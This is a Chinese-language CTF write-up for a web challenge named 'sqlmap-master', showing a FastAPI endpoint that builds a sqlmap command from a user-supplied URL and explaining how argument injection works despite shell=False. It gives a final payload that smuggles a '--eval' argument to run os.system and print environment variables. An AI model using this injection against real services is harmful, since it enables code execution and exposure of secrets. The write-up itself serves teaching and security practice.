 # Web

## sqlmap-master

签到题, 考虑到在平台靶机上跑一个 sqlmap 有亿点点危险, 所以设置成了不出网

```python
@app.post("/run")
async def run(request: Request):
    data = await request.json()
    url = data.get("url")
    
    if not url:
        return {"error": "URL is required"}
    
    command = f'sqlmap -u {url} --batch --flush-session'

    def generate():
        process = subprocess.Popen(
            command.split(),
            stdout=subprocess.PIPE,
            stderr=subprocess.STDOUT,
            shell=False
        )
        
        while True:
            output = process.stdout.readline()
            if output == '' and process.poll() is not None:
                break
            if output:
                yield output
    
    return StreamingResponse(generate(), media_type="text/plain")
```

很显然的 subprocess.Popen, 但因为设置了 `shell=False` 导致无法利用反引号等技巧进行常规的命令注入

但是仔细观察可以发现我们还是可以控制 sqlmap 的参数, 即**参数注入**

结合 GTFOBins: [https://gtfobins.github.io/gtfobins/sqlmap/](https://gtfobins.github.io/gtfobins/sqlmap/)

通过 `--eval` 参数可以执行 Python 代码, 然后因为上面 `command.split()` 默认是按空格分隔的, 所以需要一些小技巧来绕过

注意这里参数的值不需要加上单双引号, 因为上面已经设置了 `shell=False`, 如果加上去反而代表的是 "eval 一个 Python 字符串"

最终 payload

```python
127.0.0.1:8000 --eval __import__('os').system('env')
```

## internal_api
